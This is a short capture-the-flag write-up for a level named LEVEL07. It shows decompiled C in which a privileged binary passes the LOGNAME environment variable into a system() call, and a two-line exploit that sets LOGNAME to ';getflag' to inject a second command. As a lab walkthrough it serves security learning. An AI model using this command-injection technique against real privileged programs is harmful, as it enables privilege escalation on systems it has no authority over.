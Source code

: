 
# LEVEL07

Upon arriving, you will notice a level07 executable.
When executing, it will only display its name, whatever the parameter you pass
Using SCP we can get the file locally, and we can use ghidra to disassemble it

```c
int main(int argc,char **argv,char **envp)

{
  char *pcVar1;
  int iVar2;
  char *buffer;
  gid_t gid;
  uid_t uid;
  char *local_1c;
  __gid_t local_18;
  __uid_t local_14;
  
  local_18 = getegid();
  local_14 = geteuid();
  setresgid(local_18,local_18,local_18);
  setresuid(local_14,local_14,local_14);
  local_1c = (char *)0x0;
  pcVar1 = getenv("LOGNAME");
  asprintf(&local_1c,"/bin/echo %s ",pcVar1);
  iVar2 = system(local_1c);
  return iVar2;
}
```

We can see that is prints the variable in LOGNAME.
Hence we can modify it to call the getflag command:

```sh
export LOGNAME=';getflag'
./level07
```
